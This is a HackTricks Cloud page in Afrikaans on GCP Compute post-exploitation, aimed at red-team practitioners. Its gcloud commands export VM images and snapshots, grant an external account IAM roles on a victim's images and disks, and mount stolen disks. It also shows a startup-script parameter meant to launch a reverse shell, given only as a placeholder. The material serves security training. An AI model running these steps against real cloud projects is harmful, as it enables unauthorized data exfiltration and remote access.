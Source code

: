 # GCP - Compute Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (Netwerk) kyk:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksporteer & Ondersoek Beelde plaaslik

Dit sou 'n aanvaller in staat stel om **toegang te verkry tot die data wat in reeds bestaande beelde bevat is** of **nuwe beelde van lopende VM's te skep** en toegang tot hul data te verkry sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer te eksporteer en dit dan af te laai en plaaslik te monteer met die opdrag:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Voordat hierdie aksie uitgevoer kan word, mag die aanvaller moontlik bevoegdhede oor die stoor-bucket benodig en beslis **bevoegdhede oor cloudbuild** aangesien dit die **diens** is wat gevra gaan word om die uitvoer uit te voer.\
Boonop, om dit te laat werk, benodig die codebuild SA en die compute SA bevoorregte toestemmings.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Eksporteer & Ondersoek Snapshots & Skyfies plaaslik

Dit is nie moontlik om snapshots en skyfies direk te eksporteer nie, maar dit is moontlik om **'n snapshot in 'n skyf, 'n skyf in 'n beeld** te transformeer en volgens die **vorige afdeling**, daardie beeld te eksporteer om dit plaaslik te ondersoek.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ondersoek 'n Beeld wat 'n VM skep

Met die doel om toegang te verkry tot die **data wat in 'n beeld gestoor is** of binne 'n **lopende VM** van waar 'n aanvaller **'n beeld geskep het,** is dit moontlik om 'n eksterne rekening toegang tot die beeld te gee:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
en skep dan 'n nuwe VM daarvan:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
As jy nie jou eksterne rekening toegang oor die beeld kon gee nie, kan jy 'n VM met daardie beeld in die slagoffer se projek begin en **die metadata laat uitvoer 'n omgekeerde skulp** om toegang tot die beeld te verkry deur die param toe te voeg:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Met die doel om toegang te verkry tot die **data wat in 'n skyf of 'n snapshot gestoor is, kan jy die snapshot in 'n skyf omskep, 'n skyf in 'n beeld en die vorige stappe volg.**

Of jy kan **'n eksterne rekening toegang verleen** oor die skyf (as die beginpunt 'n snapshot is, gee toegang oor die snapshot of skep 'n skyf daarvan):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Koppel die skyf** aan 'n instansie:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount die skyf binne die VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiseer die Skyf**: Sodra jy binne die VM is, identifiseer die nuwe skyf deur die skyf toestelle te lys. Gewoonlik kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3. **Formateer en Mount die Skyf** (as dit 'n nuwe of rou skyf is):
*   Skep 'n mount punt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount die skyf:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

As jy **nie toegang tot 'n eksterne projek** vir die snapshot of skyf kan gee nie, moet jy dalk **hierdie aksies binne 'n instansie in dieselfde projek as die snapshot/skyf** uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
